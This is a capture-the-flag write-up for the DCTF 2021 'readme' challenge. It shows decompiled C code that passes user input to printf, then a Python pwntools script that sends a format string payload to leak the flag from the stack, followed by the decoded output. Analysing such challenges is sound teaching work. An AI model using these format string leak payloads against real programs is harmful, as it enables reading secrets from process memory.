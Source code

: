 

Here is the ``vuln`` function, it reads the flag from *flag.txt*, stores it in an array before the user input array, it takes *0x1e* bytes of input and print it with *printf*. Considered using format string attack, make *printf* print the flag.

```c
void vuln(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char flag [32];
  char input [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(flag,0x1c,__stream);
  fclose(__stream);
  puts("hello, what\'s your name?");
  fgets(input,0x1e,stdin);
  printf("hello ");
  printf(input);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

After severl attemps found the flag located at around "%7$lx" to "%11$lx", so made up the payload as following.

```python
payload = ''
for i in range(11, 7, -1):
    payload += "%{}$lx".format(i)

pr.sendafter("name?\n", payload)
pr.sendline()
s = pr.readall(2).decode().strip()
s = s[s.find(' ')+1:]
print(s)
print(''.join(reversed(''.join([chr(int(s[i:i+2],16)) for i in range(0, len(s), 2)]))))
```

Sent the payload and the server replied with the flag.

```bash
$ python3 exploit.py
[+] Opening connection to dctf-chall-readme.westeurope.azurecontainer.io on port 7481: Done
%11$lx%10$lx%9$lx%8$lx
[+] Receiving all data: Done (67B)
[*] Closed connection to dctf-chall-readme.westeurope.azurecontainer.io port 7481
7f6f00356b3030625f656d30735f646133725f30675f77306e7b66746364
dctf{n0w_g0_r3ad_s0me_b00k5\x00\x7f
```

Full exploit goes [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/readme/exploit.py).
